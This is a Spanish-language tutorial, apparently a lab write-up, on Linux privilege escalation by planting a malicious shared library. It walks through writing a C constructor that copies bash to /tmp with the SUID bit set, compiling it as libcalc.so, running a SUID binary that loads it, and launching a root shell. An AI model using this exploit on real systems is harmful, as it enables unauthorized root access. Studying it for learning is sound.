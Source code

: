 Si nosotros tenemos libertad total en `/home/user/`, **¿Qué pasaría si creáramos nuestro propio libcalc.so?**

**💪 MANOS A LA OBRA**

**1.** Creamos la carpeta `.config` 

```bash
cd /home/user
mkdir .config
```

**2.** Creamos el arachivo `libcalc.c` **dentro de la carpeta `.config`** con el siguiente contenido:

```C
/*Bibliotecas estándar necesarias para funciones básicas de entrada/salida y manejo de procesos, como system()*/
#include <stdio.h>
#include <stdlib.h>

/*Declaramos una función llamada inject() y le aplicamos el atributo especial constructor*/
static void inject() __attribute__((constructor));

/*Función principal que nos creará una shell root*/
void inject() {
	system("cp /bin/bash /tmp/sobash && chmod +s /tmp/sobash");
	/*
	1. Llama a system() para ejecutar un comando en shell
	2. El comando copia /bin/bash en /tmp/sobash (basicamente, crea una shell)
	3. Luego le da el bit SUID (chmod +s)
	*/
}
```

**¿Por qué .c y no .so directamente?** la extensión `.so` indica que se trata de un fichero binario, en Linux, estos se programan en lenguaje C y posteriormente se compilan para que el sistema operativo pueda utilizarlos.

**3.** Compilamos el código

```bash
gcc libcalc.c -shared -o libcalc.so -fPIC
```

**4.** Ejecutamos **el binario que utiliza esta biblioteca**, es decir

```bash
/usr/local/bin/suid-so
```
Cuando finalice esta ejecución, veremos un nuevo archivo en `/tmp/`


**5.** Nos movemos a donde se creó el archivo y veremos que `sobash` aparece marcado en rojo, por los permisos **[[2025-07-28-permisos-suid-y-sgid\|SUID]]**. Lo ejecutamos como siempre

```bash
cd /tmp/
./sobash -p
```
